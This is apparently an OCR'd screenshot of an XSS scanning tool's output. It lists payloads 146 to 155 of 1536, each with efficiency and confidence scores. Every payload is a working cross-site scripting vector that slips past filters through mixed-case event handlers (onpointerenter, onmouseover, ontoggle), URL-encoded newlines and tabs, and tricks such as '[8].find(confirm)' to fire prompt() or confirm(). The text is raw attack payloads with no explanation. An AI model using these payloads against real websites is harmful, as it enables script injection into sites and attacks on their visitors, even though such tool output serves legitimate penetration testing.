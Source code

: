 ------------------------------------------------------------
 Payload: <HTML/+/oNpOINTEReNTEr%0d=%0da=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 146/1536
 
------------------------------------------------------------
 Payload: <A/+/ONMOusEOVer%0a=%0aa=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 147/1536
 
------------------------------------------------------------
 Payload: <hTmL%0aoNpOinteRentER%0a=%0a(prompt)``// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 148/1536
 
------------------------------------------------------------
 Payload: <detaIlS%0doNTOgGle+=+a=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 149/1536
 
------------------------------------------------------------
 Payload: <a/+/ONpoinTERentER%0d=%0da=prompt,a()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 150/1536
 
 Progress: 151/1536
 
------------------------------------------------------------
 Payload: <HTML%0dONpOInTERenTer%0d=%0dconfirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 152/1536
 
------------------------------------------------------------
 Payload: <A/+/ONMOusEOVEr%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 153/1536
 
------------------------------------------------------------
 Payload: <A%0donpoinTEREnteR%0d=%0d[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 154/1536
 
------------------------------------------------------------
 Payload: <hTmL%09ONmOusEovER%0a=%0a[8].find(confirm)// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 155/1536
 